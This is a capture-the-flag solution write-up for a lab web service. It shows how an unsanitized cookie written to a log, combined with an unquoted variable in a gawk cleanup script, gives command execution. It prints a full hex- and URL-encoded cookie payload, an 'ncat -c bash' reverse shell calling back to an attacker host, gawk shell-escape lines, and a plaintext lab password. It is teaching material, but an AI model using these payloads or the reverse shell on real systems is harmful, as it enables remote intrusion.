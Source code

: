 # Solution

This challenge is an example of log poisoning and should be used as a whitebox/code review exercise. A simple web server use cookies to log user sessions. Every connection is logged in a master log file and create dedicated log file for the session. Every 30 seconds, a cleanup script collects the warnings of each dedicated log file based on the master log file and clear them.

Cookies is a value controlled by the user and is logged without sanitization. This shouldn't be a problem, but the Log file is used in another program. This other program, the cleanup script, looks for `Log file:` and take everything following as the log file. Therefore, a correctly modified cookie can be interpreted by the cleanup script as the wanted file.

## Enumeration

We have initial access using SSH and the provided credential.

```shell
ssh user@<ip> -p <port>
```

We know there is a webserver on the same network which is the target. So we start enumerating.

```shell
ifconfig
```

We can note the current network and try to find the webserver IP.

![alt text](nmap.png)

Now, we can try to access the webpage using a simple proxy.

```shell
ssh user@<ip> -p <port> -D 9050
```

And configure the browser to use this proxy.

![alt text](proxy.png)

![alt text](webpage.png)

## Reverse engineering

The cleanup script has this line, which doesn't have quotes arround $file_path, the potentially controlled variable.

```bash
gawk -f $filter $file_path >>$warning_log_file &
```

Opening this script in VSCode with something like ShellCheck will warn you `Double quote to prevent globbing and word splitting.`. This mean, a string will be split and interpreted as different argument. You can try this:

```bash
t="-n /etc/passwd"
cat $t
```

Reading the documentation of gawk we can see:

```bash
    gawk [ POSIX or GNU style options ] -f program-file [ -- ] file .

[...]
       -e program-text
       --source program-text
              Use program-text as AWK program source code.  This option allows the easy intermixing of library functions (used via the  -f
              and  --include options) with source code entered on the command line.  It is intended primarily for medium to large AWK pro‐
              grams used in shell scripts.  Each argument supplied via -e is treated as if it begins with  an  implicit  @namespace  "awk"
              statement.
```

It seems that GNU Awk is able to execute some kind of script which is pass as argument `-f`, but it can also take a program-text as `-e`. Looking at [gtfobins](https://gtfobins.github.io/), we can find [gawk](https://gtfobins.github.io/gtfobins/gawk/) has the ability to execute shell command.

```bash
gawk 'BEGIN {system("/bin/sh")}'
```

Trying `-e` flag, this should be valid. Note it requires a valid file path at the end:

```bash
file_path='-e {system("/bin/sh")} /etc/passwd'
gawk -f $filter $file_path
```

But this give an error:

```bash
file_path='-e {system("ls -la")} /etc/passwd'
gawk -f $filter $file_path

gawk: fatal: cannot open shared library `a")}' for reading: No such file or directory
```

Since it uses a space, globbing interpret this has two arguments. So we have RCE, but can't use space and do not have any output... Trying to create a reverse shell using [revshells](https://www.revshells.com/), but they all use spaces. Looking at [PayloadsAllTheThings
/Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space) we could try a couple of techniques. But remembering we are in a string, we could use hex:

```bash
file_path='-e {system("ls\x20-la")} /etc/passwd'
gawk -f $filter $file_path
```

Ok, we can see in the Dockerfile ncat is installed.

```bash
ncat -c bash <ip> <port>
```

Note, here we use IP since we are in the same network, but we might need to have a publicly available IP through [Duckdns](https://www.duckdns.org/) or even [ngrok](https://ngrok.com/) or use the available docker. We have access to a local machine which we can connect to via ssh with the password : `traps-sizably-jogger-scrimmage2`

```bash
ssh user@<ip>
```

We can encode to Hex using [CyberChef](https://gchq.github.io/CyberChef/).

```bash
\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x30\x2e\x30\x2e\x30\x2e\x30\x20\x34\x34\x34\x34
```

Cool, we have our final payload:

```bash
Log file:-e {system("\x6e\x63\x61\x74\x20\x2d\x63\x20\x62\x61\x73\x68\x20\x31\x37\x32\x2e\x32\x32\x2e\x30\x2e\x31\x20\x34\x34\x34\x34")} /etc/passwd
```

Which we need to URL encode:

```shell
Log%20file%3A%2De%20%7Bsystem%28%22%5Cx6e%5Cx63%5Cx61%5Cx74%5Cx20%5Cx2d%5Cx63%5Cx20%5Cx62%5Cx61%5Cx73%5Cx68%5Cx20%5Cx31%5Cx37%5Cx32%5Cx2e%5Cx32%5Cx32%5Cx2e%5Cx30%5Cx2e%5Cx31%5Cx20%5Cx34%5Cx34%5Cx34%5Cx34%22%29%7D%20%2Fetc%2Fpasswd
```

Open a listener:

```shell
nc -lvnp <port>
```

Set the cookie to our payload and get the page /flag.
![cookie](cookie.png)

![listener](listener.png)

Success! We have a reverse shell, we can `ls` and `cat` the flag!
